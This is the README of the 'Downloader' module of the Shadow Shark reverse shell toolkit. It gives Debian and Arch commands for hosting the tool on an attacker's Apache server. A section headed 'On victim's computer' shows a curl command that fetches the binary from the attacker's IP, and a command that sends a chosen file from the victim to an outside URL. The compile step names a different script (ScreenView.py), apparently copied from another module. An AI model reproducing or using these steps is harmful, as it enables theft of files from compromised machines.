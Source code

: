 # Downloader
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> Downloader module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/Downloader.git
$ sudo chown -R www-data:www-data /var/www/html/Downloader/
$ cd Downloader/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/Downloader.git
$ sudo chown -R www-data:www-data /var/www/html/Downloader/
$ cd Downloader/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/Downloader/Downloader.(exe, app, etc) --output Downloader.(exe, app, etc)
$ Downloader.(exe, app, etc) --file (File) --url (Url to send the file to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
```
